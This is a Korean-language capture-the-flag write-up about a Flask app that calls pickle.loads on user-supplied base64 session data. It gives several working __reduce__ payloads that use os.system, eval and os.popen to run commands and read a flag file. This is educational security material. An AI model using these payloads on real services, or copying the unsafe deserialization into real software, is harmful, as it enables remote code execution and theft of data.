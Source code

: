 ## 코드

```python
@app.route('/create_session', methods=['GET', 'POST'])
def create_session():
    if request.method == 'GET':
        return render_template('create_session.html')
    elif request.method == 'POST':
        info = {}
        for _ in INFO:
            info[_] = request.form.get(_, '')
        data = base64.b64encode(pickle.dumps(info)).decode('utf8')
        return render_template('create_session.html', data=data)

@app.route('/check_session', methods=['GET', 'POST'])
def check_session():
    if request.method == 'GET':
        return render_template('check_session.html')
    elif request.method == 'POST':
        session = request.form.get('session', '')
        info = pickle.loads(base64.b64decode(session))
        return render_template('check_session.html', info=info)
```

## 풀이

pickle의 직렬화 취약점을 활용하는 문제
덕분에 pickle 직렬화 취약점의 동작원리에 대해 알게되었고,

```python
import os
import pickle

class Exploit(object):
    def __reduce__(self):
        command = "id"
        return (os.system, (command, ))

data = pickle.dumps(Exploit())
pickle.loads(data)
```

와 같은 방식으로 RCE를 발생시킬 수 있다는 것을 알게 되었다.
여기서부터는 이제 문제 풀이, 디테일의 영역인데,

일단 문제에서 info의 객체 형태를 지정해주고 있으므로 이를 지켜줘야 하며
즉 pickle.dumps({'name': Exploit()}) 와 같은 방식으로 말이다.

그리고 문제에서는 create_session()에서 dumps를 실행시키는데,
생각해보면 우리가 만든 class를 여기로 전달시킬 방법이 없다.
여기서 쓸데없이 생각을 많이했는데, 생각해보니 그냥 base64 인코딩과 dumps를 내가 다 해서 String 형태로 값을 만들고,
이를 check_session()으로만 전달시키면 되겠다는 것을 깨달았다.

그래서 스크립트를 다음과 같은 방향으로 작성했다.

```python
import os
import pickle
import requests
import base64

class Exploit(object):
    def __reduce__(self):
        command = "cat ./flag.txt"
        return (os.system, (command, ))

body = {
    'name': Exploit()
}

data = base64.b64encode(pickle.dumps(body)).decode('utf8')
print(data)
```

여기서 마지막 디테일은 os.system으로 실행시킨 명령어의 return 값은 명령어 실행의 성공 여부이다.
따라서 기껏 이렇게 잘 실행시켜봤자 0 밖에 안나온다.
그렇기 때문에 os.system 대신 명령어 실행시킨 결과를 바로 받아올 수 있는 방법이 필요하다.

```python
import os
import pickle
import requests
import base64

class Exploit(object):
    def __reduce__(self):
        p = "open('./flag.txt', 'r').read()"
        return (eval, (p, ))

body = {
    'name': Exploit()
}

data = base64.b64encode(pickle.dumps(body)).decode('utf8')
print(data)
```

여기서 eval은 파이썬 스크립트를 인자로 받아 해당 스크립트를 실행시키는 함수이다. 게다가 그 실행 결과를 return 하기 때문에 결과를 바로 확인할 수 있는 것이다.

이런 방법으로 data를 만들고, data를 check_session()에 입력하니 name에 flag 값이 나왔다.

```python
class vul(object):
    def __reduce__(self):
        p = "os.popen('cat ./flag.txt').read()"
        return (eval, (p,))
```

이렇게 os.popen()을 활용해도 할 수 있다고 한다.